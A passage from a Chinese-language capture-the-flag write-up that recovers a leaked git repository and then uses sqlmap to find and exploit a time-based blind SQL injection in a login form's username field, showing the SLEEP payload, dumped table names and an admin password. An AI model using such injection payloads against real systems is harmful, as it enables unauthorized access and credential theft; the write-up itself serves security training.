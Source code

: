 ![](/assets/images/move/1552903604902-d4b85ef9-98bc-4af8-9eea-c27af92f99a7.png)

`Githack`操作一下，在flag.txt中获取Hint 1: flag is in /eXpl0ve5p0cVeRymuCh。

![](/assets/images/move/1552904156016-c2065fec-a46e-4b57-a6d7-2f8ad930c581.png)

`sqlmap`跑一下，发现存在基于时间的布尔盲注：

```bash
---
Parameter: username (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: username=admin' AND SLEEP(5) AND 'JKEb'='JKEb&password=123
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
---
```

继续获取信息:

```bash
available databases [2]:
[*] information_schema
[*] web19
In Database: web19
[2 tables]
+--------+
| user   |
| hlnt_2 |
+--------+
Database: web19
Table: user
[1 entry]
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
| 1  | admin    | p0CLOvesExpT00 |
+----+----------+----------------+
Database: web19
```